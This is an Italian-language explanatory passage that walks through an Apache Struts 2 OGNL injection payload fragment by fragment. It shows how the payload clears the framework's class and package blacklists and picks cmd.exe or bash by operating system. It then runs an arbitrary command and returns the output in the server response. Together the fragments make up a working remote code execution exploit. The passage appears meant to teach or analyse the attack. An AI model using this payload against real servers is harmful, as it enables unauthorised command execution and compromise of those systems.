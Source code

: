 La funzione di ogni parte del payload è la seguente: 

 `%{(#_='multipart/form-data').`

- Setta la variabile `#_` a 'multipart/form-data'
- `%{}` indica la valutazione del testo all'interno come espressione OGNL al framework


```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
```

- Setta l'accesso delle classi a `DEFAULT_MEMBER_ACCESS` in modo da potervi accedere successivamente


```
((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).
(#ognlUtil.getExcludedClasses().clear()).
```

- Una volta che è possibile accedere alle classi, preleva l'istanza dell'oggetto `com.opensymphony.xwork2.ognl.OgnlUtil` e invocando il metodo `clear()` sulle liste dei package e classi escluse (ovvero blacklistati) di tale oggetto, le svuota e quindi bypassa il blacklisting di alcuni package e classi esclusi come ad esempio `System`


`(#context.setMemberAccess(#dm)))).`

- Abilita altri permessi in questo caso della variabile `#context`


`(#cmd='%s'). % cmd`

- Setta la variabile `#cmd` al comando dato in input allo script python (si vedrà più avanti)


```
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
```

- Setta la variabile `#cmds` a due diversi valori adattando il comando dopo aver verificato se ci si trova in un ambiente Windows o Linux


```
(#p=new java.lang.ProcessBuilder(#cmds))."
(#p.redirectErrorStream(true)).(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())}
```

- Esegue il comando completo (contenuto in `#cmds`) creando un nuovo processo tramite la classe `ProcessBuilder`
- Una volta eseguito il comando, copia la Stream del processo con quella della risposta del server in modo da ricevere l'output del comando eseguito
